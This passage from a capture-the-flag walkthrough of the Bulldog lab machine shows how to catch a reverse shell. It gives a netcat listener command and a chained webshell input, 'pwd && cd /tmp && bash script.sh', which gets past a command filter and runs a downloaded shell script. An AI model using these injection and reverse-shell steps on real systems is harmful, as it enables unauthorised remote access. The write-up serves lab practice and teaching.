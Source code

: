 <br>
![A28](https://i.imgur.com/QktUelE.png)
<br>

When you return to your Kali terminal window, you will see that the file has been accessed by Bulldog's IP.

<br>
![A29](https://i.imgur.com/Z28B1JU.png)
<br>

### Shell Step 4 - Stopping the Webserver and Starting the Listener

Kill the python hosting process with `CTRL-C`
We need will start up the `nc` listener.

*	`-l` tells `nc` to listen
*	`-n` tells `nc` to not bother trying to convert IP addresses into hostnames (like bulldog.ctf)
*  `-v` tells `nc` to be verbose - outputting more information for us to read
*	-p specifies at what port nc should run. This needs to match the port our shell script uses to connect to Kali.

`nc -lnvp 1234`

<br>
![A30](https://i.imgur.com/sFk1wOR.png)
<br>

#### Shell Step 5 - Finally Popping the Shell

With Kali standing by listening, we just need Bulldog to start talking.

*	`pwd` to trick the if statement
*	`cd /tmp` to return us to the directory where the script is stored
*	`bash script.sh` to run it!

In the webshell run `pwd && cd /tmp && bash script.sh`

If it works, the browser window should say "connecting" but not actually load.

<br>
![A31](https://i.imgur.com/UCeeZW7.png)
<br>

Check your terminal window where you put in the `nc` command. <br>
It will contain a command shell for `django@bulldog` !


![A32](https://i.imgur.com/9ULe19U.png)

<br>

## 5. Enumeration - Looking for Internal Weaknesses
